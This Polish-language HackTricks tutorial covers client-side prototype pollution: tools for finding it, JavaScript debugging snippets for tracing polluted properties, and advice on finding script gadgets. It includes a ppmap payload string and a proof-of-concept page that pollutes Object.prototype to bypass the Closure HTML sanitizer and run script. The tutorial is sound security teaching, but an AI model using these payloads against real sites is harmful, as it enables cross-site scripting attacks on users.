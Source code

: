 # Zanieczyszczenie prototypu po stronie klienta

{{#include ../../../banners/hacktricks-training.md}}

## Odkrywanie za pomocą narzędzi automatycznych

Narzędzia [**https://github.com/dwisiswant0/ppfuzz**](https://github.com/dwisiswant0/ppfuzz?tag=v1.0.0)**,** [**https://github.com/kleiton0x00/ppmap**](https://github.com/kleiton0x00/ppmap) **i** [**https://github.com/kosmosec/proto-find**](https://github.com/kosmosec/proto-find) mogą być używane do **znajdowania podatności na zanieczyszczenie prototypu**.

Ponadto, możesz również użyć **rozszerzenia przeglądarki** [**PPScan**](https://github.com/msrkp/PPScan) do **automatycznego** **skanowania** **stron**, które **odwiedzasz** w poszukiwaniu podatności na zanieczyszczenie prototypu.

### Debugowanie, gdzie używana jest właściwość <a href="#id-5530" id="id-5530"></a>
```javascript
// Stop debugger where 'potentialGadget' property is accessed
Object.defineProperty(Object.prototype, "potentialGadget", {
__proto__: null,
get() {
console.trace()
return "test"
},
})
```
### Znalezienie przyczyny zanieczyszczenia prototypu <a href="#id-5530" id="id-5530"></a>

Gdy luka w zanieczyszczeniu prototypu zostanie zidentyfikowana przez którykolwiek z narzędzi, a kod nie jest zbyt skomplikowany, możesz znaleźć lukę, przeszukując słowa kluczowe takie jak `location.hash`, `decodeURIComponent` lub `location.search` w Narzędziach Dewelopera Chrome. Takie podejście pozwala na zlokalizowanie wrażliwej sekcji kodu JavaScript.

Dla większych i bardziej złożonych baz kodu, prostą metodą na odkrycie wrażliwego kodu są następujące kroki:

1. Użyj narzędzia do zidentyfikowania luki i uzyskaj ładunek zaprojektowany do ustawienia właściwości w konstruktorze. Przykład podany przez ppmap może wyglądać następująco: `constructor[prototype][ppmap]=reserved`.
2. Ustaw punkt przerwania na pierwszej linii kodu JavaScript, która zostanie wykonana na stronie. Odśwież stronę z ładunkiem, wstrzymując wykonanie w tym punkcie przerwania.
3. Gdy wykonanie JavaScript jest wstrzymane, wykonaj następujący skrypt w konsoli JS. Ten skrypt zasygnalizuje, kiedy właściwość 'ppmap' zostanie utworzona, co pomoże w zlokalizowaniu jej pochodzenia:
```javascript
function debugAccess(obj, prop, debugGet = true) {
var origValue = obj[prop]

Object.defineProperty(obj, prop, {
get: function () {
if (debugGet) debugger
return origValue
},
set: function (val) {
debugger
origValue = val
},
})
}

debugAccess(Object.prototype, "ppmap")
```
4. Wróć do zakładki **Sources** i wybierz „Wznów wykonywanie skryptu”. JavaScript będzie kontynuował wykonywanie, a właściwość 'ppmap' zostanie zanieczyszczona zgodnie z oczekiwaniami. Wykorzystanie dostarczonego fragmentu ułatwia identyfikację dokładnej lokalizacji, w której właściwość 'ppmap' jest zanieczyszczona. Analizując **Call Stack**, można zaobserwować różne stosy, w których wystąpiło zanieczyszczenie.

Decydując, który stos zbadać, często warto skupić się na stosach związanych z plikami bibliotek JavaScript, ponieważ zanieczyszczenie prototypu często występuje w tych bibliotekach. Zidentyfikuj odpowiedni stos, sprawdzając jego powiązanie z plikami bibliotek (widoczne po prawej stronie, podobnie jak na dostarczonym obrazie). W scenariuszach z wieloma stosami, takimi jak te na liniach 4 i 6, logicznym wyborem jest stos na linii 4, ponieważ reprezentuje on początkowe wystąpienie zanieczyszczenia, a tym samym pierwotną przyczynę podatności. Kliknięcie na stos przeniesie cię do podatnego kodu.

![https://miro.medium.com/max/1400/1*S8NBOl1a7f1zhJxlh-6g4w.jpeg](https://miro.medium.com/max/1400/1*S8NBOl1a7f1zhJxlh-6g4w.jpeg)

## Znajdowanie gadżetów skryptowych

Gadżet to **kod, który będzie nadużywany po odkryciu podatności PP**.

Jeśli aplikacja jest prosta, możemy **szukać** **słów kluczowych** takich jak **`srcdoc/innerHTML/iframe/createElement`** i przeglądać kod źródłowy, aby sprawdzić, czy **prowadzi do wykonania javascriptu**. Czasami wspomniane techniki mogą w ogóle nie znaleźć gadżetów. W takim przypadku czysta analiza kodu źródłowego ujawnia kilka ciekawych gadżetów, jak w poniższym przykładzie.

### Przykład znajdowania gadżetu PP w kodzie biblioteki Mithil

Sprawdź ten artykuł: [https://blog.huli.tw/2022/05/02/en/intigriti-revenge-challenge-author-writeup/](https://blog.huli.tw/2022/05/02/en/intigriti-revenge-challenge-author-writeup/)

## Rekompilacja ładunków dla podatnych bibliotek

- [https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#prototype-pollution](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#prototype-pollution)
- [https://github.com/BlackFan/client-side-prototype-pollution](https://github.com/BlackFan/client-side-prototype-pollution)

## Obejście sanitariuszy HTML za pomocą PP

[**To badanie**](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/) pokazuje gadżety PP do **obejścia sanitizacji** zapewnianych przez niektóre biblioteki sanitariuszy HTML:

- **sanitize-html**

<figure><img src="../../../images/image (1140).png" alt="https://research.securitum.com/wp-content/uploads/sites/2/2020/08/image-7.png"><figcaption></figcaption></figure>

- **dompurify**

<figure><img src="../../../images/image (1141).png" alt="https://research.securitum.com/wp-content/uploads/sites/2/2020/08/image-9.png"><figcaption></figcaption></figure>

- **Closure**
```html
<!-- from https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/ -->
<script>
Object.prototype['* ONERROR'] = 1;
Object.prototype['* SRC'] = 1;
</script>
<script src=https://google.github.io/closure-library/source/closure/goog/base.js></script>
<script>
goog.require('goog.html.sanitizer.HtmlSanitizer');
goog.require('goog.dom');
</script>
<body>
<script>
const html = '<img src onerror=alert(1)>';
const sanitizer = new goog.html.sanitizer.HtmlSanitizer();
const sanitized = sanitizer.sanitize(html);
const node = goog.dom.safeHtmlToNode(sanitized);

document.body.append(node);
</script>
```
## Odniesienia

- [https://infosecwriteups.com/hunting-for-prototype-pollution-and-its-vulnerable-code-on-js-libraries-5bab2d6dc746](https://infosecwriteups.com/hunting-for-prototype-pollution-and-its-vulnerable-code-on-js-libraries-5bab2d6dc746)
- [https://blog.s1r1us.ninja/research/PP](https://blog.s1r1us.ninja/research/PP)
- [https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/#:\~:text=my%20challenge.-,Closure,-Closure%20Sanitizer%20has](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/)

{{#include ../../../banners/hacktricks-training.md}}
